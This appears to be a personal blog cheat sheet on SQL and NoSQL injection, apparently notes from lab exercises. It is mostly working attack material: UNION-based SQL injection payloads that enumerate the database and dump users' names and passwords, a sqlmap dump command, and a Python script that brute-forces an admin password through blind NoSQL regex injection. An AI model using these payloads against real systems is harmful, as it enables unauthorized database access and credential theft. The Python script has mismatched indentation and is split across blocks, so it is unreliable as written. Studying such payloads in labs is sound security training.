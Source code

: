 ```yaml
---
title: SQL CheatSheet
date: 2021-09-12
categories:
  - Notes
tags:
  - Notes
  - SQL
excerpt_separator: <!--more-->
---
```

<p><img src="/assets/images/dvwa/SQLi/sql.png" alt="" /></p>

<h1>SQL Injection</h1>
<p>CheatSheet</p>
<p>
Display Database Version<br>
%' or 0=0 union select null, version() #<br>
<br>
Display Database User<br>
%' or 0=0 union select null, user() #<br>
<br>
Display Database Name<br>
%' or 0=0 union select null, database() #<br>
<br>
Display all tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables #<br>
<br>
Display all the user tables in information_schema<br>
%' and 1=0 union select null, table_name from information_schema.tables where table_name like 'user%'#<br>
<br>
Display all the columns fields in the information_schema user table<br>
%' and 1=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #<br>
<br>
Display all the columns field contents in the information_schema user table<br>
%' and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #<br>
</p>

<code>sqlmap http://[IP]/admin?user=3 --cookie='token=[Enter Cookie] --technique=U --delay=2 -dump</code>

<h2>Nosql</h2>

<h4>shitscript</h4>


<pre><code>
import requests
bruten = '1234567890abcdef-'
xx=0
x = bruten[xx]
keylist = ""
keystr = keylist + x
#URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
r = requests.get(URL)
s = (len(r.content))
</code></pre>
<code>  
while True:
  try:
    for i in range(0, 17):    
      x = bruten[xx]
      keystr = keylist + x
      #URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^.{}/)%00'.format(keystr)
      URL='[redacted]/?search=admin%27%20%26%26%20this.password.match(/^{}.*$/)%00'.format(keystr)
      print(URL)
      print(keystr)
      #print(keylist)
      r = requests.get(URL)
      s = (len(r.content))
      #print(s)
      if s == 1614:
        keystr = keylist + x
        keystr = keystr
        keylist = keylist + x
        #print(keylist)
        xx=0
        continue
  
      else:
        #keylist = ""
        keystr = keylist + x
        keystr = keystr
        xx+=1
        continue
    except:
      print("crackarooniedddddd")
      print('password is ' + keystr[:-1])
      break  </code>